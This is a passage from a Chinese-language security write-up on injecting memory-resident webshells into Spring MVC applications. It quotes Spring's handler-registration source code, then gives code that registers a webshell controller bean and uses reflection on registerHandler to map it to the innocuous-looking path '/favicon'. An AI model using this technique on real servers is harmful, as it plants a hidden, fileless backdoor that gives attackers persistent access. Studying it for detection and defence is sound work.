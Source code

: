 ```java
		}

		Object mappedHandler = this.handlerMap.get(urlPath);
		if (mappedHandler != null) {
			if (mappedHandler != resolvedHandler) {
				throw new IllegalStateException(
						"Cannot map " + getHandlerDescription(handler) + " to URL path [" + urlPath +
						"]: There is already " + getHandlerDescription(mappedHandler) + " mapped.");
			}
		}
		else {
			if (urlPath.equals("/")) {
				if (logger.isTraceEnabled()) {
					logger.trace("Root mapping to " + getHandlerDescription(handler));
				}
				setRootHandler(resolvedHandler);
			}
			else if (urlPath.equals("/*")) {
				if (logger.isTraceEnabled()) {
					logger.trace("Default mapping to " + getHandlerDescription(handler));
				}
				setDefaultHandler(resolvedHandler);
			}
			else {
				this.handlerMap.put(urlPath, resolvedHandler);
				if (logger.isTraceEnabled()) {
					logger.trace("Mapped [" + urlPath + "] onto " + getHandlerDescription(handler));
				}
			}
		}
	}
```
我们通过传入 URL 路由 和恶意 bean 即可
实现伪代码如下：
```java
// 1. 在当前上下文环境中注册一个名为 dynamicController 的 Webshell controller 实例 bean
context.getBeanFactory().registerSingleton("dynamicController", Class.forName("me.landgrey.SSOLogin").newInstance());
// 2. 从当前上下文环境中获得 DefaultAnnotationHandlerMapping 的实例 bean
org.springframework.web.servlet.mvc.annotation.DefaultAnnotationHandlerMapping  dh = context.getBean(org.springframework.web.servlet.mvc.annotation.DefaultAnnotationHandlerMapping.class);
// 3. 反射获得 registerHandler Method
java.lang.reflect.Method m1 = org.springframework.web.servlet.handler.AbstractUrlHandlerMapping.class.getDeclaredMethod("registerHandler", String.class, Object.class);
m1.setAccessible(true);
// 4. 将 dynamicController 和 URL 注册到 handlerMap 中
m1.invoke(dh, "/favicon", "dynamicController");
```

